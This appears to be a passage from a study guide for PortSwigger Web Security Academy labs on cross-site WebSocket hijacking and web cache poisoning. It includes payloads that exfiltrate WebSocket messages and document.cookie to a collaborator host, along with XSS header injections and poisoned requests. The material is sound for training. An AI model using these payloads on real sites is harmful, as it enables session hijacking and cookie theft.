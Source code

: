 ### 3. Cross-site WebSocket hijacking
```
<script>
    var ws = new WebSocket('wss://your-websocket-url/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```


# Web cache poisoning
## Approach  
The main tip I've got there is to watch for ```/resources/js/tracking.js``` file and ```X-Cache: hit``` header in response. If you got only tracking.js without X-Cache - no cache poisoning here, folks.  
![image](https://user-images.githubusercontent.com/58632878/225033745-33636739-0101-422f-a9b7-bf125f55201f.png)  
  
If you got both file and header, the first thing you should try is to inject your exploit server into **Host:** or **X-Forwarded-Host:** headers and check them in response:  
![image](https://user-images.githubusercontent.com/58632878/225035542-13e03e9b-b1b7-4be8-8db0-a10a340e33dd.png)  
  
**ATTENTION:** It is really important to send your poisoned request more than once. For me, I had to send it like 10 times to poison the cache.  

You got the poisoned cache with X-Forwarded-Host? Cool, now go to your exploit server, set the File name /resources/js/tracking.js and in Body section paste the next payload: ```document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />')```. Poison web cache with your server and wait for victim's cookies.  
![image](https://user-images.githubusercontent.com/58632878/225039388-6cb922d5-2a22-4f00-a886-b14a5435c7ef.png)


## Labs
### 1. Web cache poisoning with an unkeyed header
>Set the next header in request to the home page
```
X-Forwarded-Host: kek.com"></script><script>alert(document.cookie)</script>//
```

### 2. Web cache poisoning with an unkeyed cookie
```
Cookie: session=x; fehost=prod-cache-01"}</script><script>alert(1)</script>//
```

### 3. Web cache poisoning with multiple headers
>On exploit-server change the file name to match the path used by the vulnerable response: /resources/js/tracking.js. In body write ```alert(document.cookie)``` script.
```
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: exploit-server.web-security-academy.net/
X-Forwarded-Scheme: http
```
